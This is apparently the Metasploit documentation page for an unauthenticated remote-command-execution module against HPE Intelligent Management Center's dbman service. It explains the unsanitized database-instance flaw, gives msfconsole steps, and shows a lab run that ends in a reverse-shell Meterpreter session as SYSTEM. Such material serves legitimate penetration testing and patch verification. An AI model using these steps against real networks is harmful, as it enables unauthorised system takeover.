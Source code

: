 ## Description

  This module exploits a remote command execution vulnerability in Hewlett Packard Enterprise Intelligent Management Center before version 7.3 E0504P04.

  The dbman service allows unauthenticated remote users to restart a user-specified database instance (OpCode 10008), however the instance ID is not sanitized, allowing execution of arbitrary operating system commands as SYSTEM. This service listens on TCP port 2810 by default.


## Vulnerable Application

  [HPE Intelligent Management Center Enterprise Software Platform](https://www.hpe.com/au/en/product-catalog/networking/intelligent-management-software/pip.hp-intelligent-management-center-enterprise-software-platform.4176520.html) is a comprehensive wired and wireless network management tool.

  This module has been tested successfully on:

  * iMC PLAT v7.2 (E0403) on Windows 7 SP1 (EN).

  Installer:

  * [iMC PLAT v7.2 (E0403) Standard](https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=16759&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/misc/hp_imc_dbman_restartdb_unauth_rce`
  3. Do: `set RHOST <IP>`
  4. Do: `run`
  5. You should get a session


## Scenarios

  ```
  msf > use exploit/windows/misc/hp_imc_dbman_restartdb_unauth_rce 
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > check
  [*] 172.16.191.166:2810 The target service is running, but could not be validated.
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > set verbose true
  verbose => true
  msf exploit(windows/misc/hp_imc_dbman_restartdb_unauth_rce) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.166:2810 - Powershell command length: 6091
  [*] 172.16.191.166:2810 - Sending payload (6091 bytes)...
  [*] Sending stage (179779 bytes) to 172.16.191.166
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.166:55316) at 2018-01-05 03:23:55 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN-SGBSD5TQUTQ
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 3
  Meterpreter     : x86/windows
  ```

